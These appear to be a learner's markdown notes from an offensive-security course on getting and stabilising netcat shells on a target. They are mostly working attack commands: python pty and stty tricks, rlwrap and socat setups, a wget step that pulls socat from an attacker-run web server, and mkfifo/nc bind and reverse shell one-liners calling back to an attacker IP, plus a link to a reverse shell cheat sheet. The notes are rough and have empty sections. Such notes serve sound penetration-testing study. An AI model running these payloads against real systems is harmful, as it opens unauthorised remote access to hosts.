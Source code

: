 # What the Shell 
## Netcat Shell Stabilisation  
### Technique 1: Python  
command:  
```
step 1: python -c 'import pty;pty.spawn("/bin/bash")'  

step 2: export TERM=xterm  

step 3: stty raw -echo; fg  
```
### Technique 2: rlwrap  
command: 
```bash
rlwrap nc -lvnp <port>  #background the shell with Ctrl + Z, then use stty raw -echo; fg to stabilise and re-enter the shell
```
### Technique 3: Socat  

command:
```bash
sudo python3 -m http.server 80
wget <LOCAL-IP>/socat -O /tmp/socat  #download socat static compiled binary in target 

stty -a #note rows and columns in own terminal 

stty rows number   #set in shell 
stty cols numver   #set in shell 
```
### Socat Encrypted Shells 
### Common Shell Payloads 

a bit of vague***   

command:  
```bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f   #a bit of hard, but don't worry. try ask chat-gpt

mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
[PayloadAllTheThing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

### practice and example  
command:  
```
remmina  #login to the windows server
```
